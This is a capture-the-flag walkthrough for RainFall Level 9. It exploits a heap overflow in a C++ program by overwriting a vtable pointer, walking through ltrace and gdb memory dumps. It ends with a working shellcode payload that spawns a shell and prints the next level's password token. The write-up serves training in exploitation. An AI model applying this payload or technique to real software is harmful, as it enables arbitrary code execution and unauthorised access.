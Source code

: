 # Level 9

## Answer
Our Cpp source code generates the same assembly code as the original binary. Compile it as follows:
```
g++ -fno-stack-protector source.c
```

Let's take a look at the source code:
```cpp
#include <cstring>
#include <cstdlib>

class N
{
private:
    // int vtable;
    char annotation[100];
    int nbr;

public:
    N(int val) : nbr(val) {}

    void setAnnotation(char *ann) { std::memcpy(this->annotation, ann, std::strlen(ann)); }

    virtual int operator+(N &other) { return this->nbr + other.nbr; }
    virtual int operator-(N &other) { return this->nbr - other.nbr; }
};

int main(int argc, char **argv)
{
    if (argc <= 1)
        exit(1);

    N *ptr1 = new N(5);
    N *ptr2 = new N(6);

    N &ref1 = *ptr1;
    N &ref2 = *ptr2;

    ref1.setAnnotation(argv[1]);

    return ref2 + ref1;
}
```

Let's focus on the `main` function. It reads input from the command line and then copies it to the `annotation` buffer using `memcpy`. Although `memcpy` is generally considered safe, in this case, we're copying the input without checking its size, which can lead to a buffer overflow. The `setAnnotation` function is called on the first object, allowing us to overflow the first object's buffer and potentially reach the second object's VTable address.

The VTable contains pointers to the virtual functions of the class. When a virtual function is called, the program looks up the VTable to find the address of the function to call. Therefore, by overwriting the VTable pointer, we can manipulate the virtual function call.
> Learn more about vtables [here](https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/).

If we overwrite the VTable pointer with the address of a function or location of our choice, the program will jump to that address instead of the VTable. Then, it will perform another jump, thinking it's jumping to the function pointed to by the VTable. However, it will actually be jumping to our address, allowing us to execute arbitrary code.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
level9@RainFall:~$ ltrace ./level9 test
[...]
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a008 #ptr1
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a078 #ptr2
[...]
```
The `_Znwj` function creates a new `N` object. We can see our two objects are allocated at addresses `0x804a008` and `0x804a078` which are 112 bytes apart.

We assume the following memory layout for each object:  
`[vtable (4 bytes)] [annotation (100 bytes)] [value (4 bytes)] [padding (4 bytes)]`.

Let's confirm our assumptions with `gdb`:
```bash
# Break at the setAnnotation function
(gdb) break _ZN1N13setAnnotationEPc
Breakpoint 1 at 0x8048714

# Run the program with a 112 bytes long input
(gdb) run `python -c 'print("A" * 112)'`
Starting program: /home/user/level9/level9 `python -c 'print("A" * 112)'`

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) x/56wx 0x804a008
# This is ptr1
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000005 is the value of nbr
# 0x00000071 is the value of the padding
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
# This is ptr2
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000006 is the value of nbr
# 0x00020f21 is the value of the padding
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21

# Continue execution
(gdb) step
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()

# As expected, the vtable pointer is overwritten with the input
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

Our assumptions are correct, so to reach the VTable pointer of `ptr2`, we'll need to write 108 bytes of padding. Anything written after that will overwrite the VTable pointer.

Let's craft our payload:
```
address of the shellcode + shellcode + padding + address pointing to the shellcode address

0x0804a008 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A"*(108-4-4-21) + 0x0804a00c

-4 bytes for the address of the shellcode
-4 bytes for the address pointing to the shellcode address
-21 bytes for the shellcode
```

As mentioned before, we'll have to jump twice to reach the shellcode. The first jump is to get to the shellcode address, and the second jump is to get to the shellcode itself.

Let's run our payload:
```bash
level9@RainFall:~$ ./level9 `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We are now bonus0! Let's move on to the next level.
